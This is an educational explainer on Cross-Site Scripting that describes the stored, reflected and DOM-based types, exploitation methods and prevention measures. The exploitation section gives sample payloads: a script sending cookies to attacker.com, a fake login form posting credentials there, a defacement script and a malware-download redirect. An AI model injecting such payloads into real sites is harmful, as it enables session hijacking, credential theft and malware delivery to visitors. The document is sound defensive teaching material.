 Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. This can lead to various attacks, including data theft, session hijacking, and defacement of websites. XSS exploits the trust a user has in a particular website, allowing the attacker to execute scripts in the context of the user's browser.

### Types of XSS

1. **Stored XSS (Persistent XSS)**:
   - In this type, the malicious script is stored on the server (e.g., in a database) and is served to users when they access the affected page.
   - **Example**: An attacker submits a comment containing a malicious script on a blog. When other users view the blog, the script executes in their browsers.

2. **Reflected XSS (Non-Persistent XSS)**:
   - The malicious script is reflected off a web server, typically via a URL or a form submission. The script is executed immediately without being stored.
   - **Example**: An attacker crafts a URL that includes a malicious script as a query parameter. When a victim clicks the link, the server reflects the script back in the response, executing it in the victim's browser.

3. **DOM-based XSS**:
   - This type occurs when the client-side scripts modify the Document Object Model (DOM) in a way that allows the execution of malicious scripts. The attack does not involve the server.
   - **Example**: A web application uses JavaScript to read data from the URL and inject it into the page without proper sanitization, allowing an attacker to manipulate the URL to execute a script.

### Exploitation Methods

Attackers can exploit XSS vulnerabilities using various methods:

1. **Session Hijacking**:
   - By injecting a script that captures cookies or session tokens, an attacker can impersonate a user. For example, the script can send the captured data to the attacker's server.

   ```javascript
   <script>
       var img = new Image();
       img.src = "http://attacker.com/steal?cookie=" + document.cookie;
   </script>
   ```

2. **Phishing**:
   - An attacker can create a fake login form that appears on a legitimate site. When users enter their credentials, the attacker captures them.

   ```html
   <form action="http://attacker.com/steal" method="POST">
       <input type="text" name="username" placeholder="Username">
       <input type="password" name="password" placeholder="Password">
       <input type="submit" value="Login">
   </form>
   ```

3. **Defacement**:
   - Attackers can inject scripts that modify the content of a webpage, displaying their own messages or images.

   ```javascript
   <script>
       document.body.innerHTML = "<h1>Hacked by Attacker</h1>";
   </script>
   ```

4. **Malware Distribution**:
   - An attacker can use XSS to redirect users to malicious sites or download malware.

   ```javascript
   <script>
       window.location.href = "http://malicious-site.com/malware.exe";
   </script>
   ```

### Prevention Measures

To protect against XSS vulnerabilities, developers should implement the following strategies:

1. **Input Validation and Sanitization**:
   - Validate and sanitize all user inputs to ensure they do not contain malicious scripts. Use libraries or frameworks that provide built-in protection against XSS.

2. **Output Encoding**:
   - Encode data before rendering it in the browser. This ensures that any potentially harmful characters are treated as plain text rather than executable code.

3. **Content Security Policy (CSP)**:
   - Implement a CSP to restrict the sources from which scripts can be loaded. This can help mitigate the impact of XSS attacks.

4. **Use HTTPOnly and Secure Flags**:
   - Set the `HTTPOnly` flag on cookies to prevent JavaScript from accessing them. Use the `Secure` flag to ensure cookies are only sent over HTTPS.

5. **Regular Security Audits**:
   - Conduct regular security assessments and code reviews to identify and remediate XSS vulnerabilities.

### Conclusion

Cross-Site Scripting (XSS) is a prevalent and dangerous vulnerability that can lead to significant security breaches. Understanding the types of XSS and the methods of exploitation is crucial for developers and security professionals. By implementing robust security measures, organizations can protect their applications and users from XSS attacks.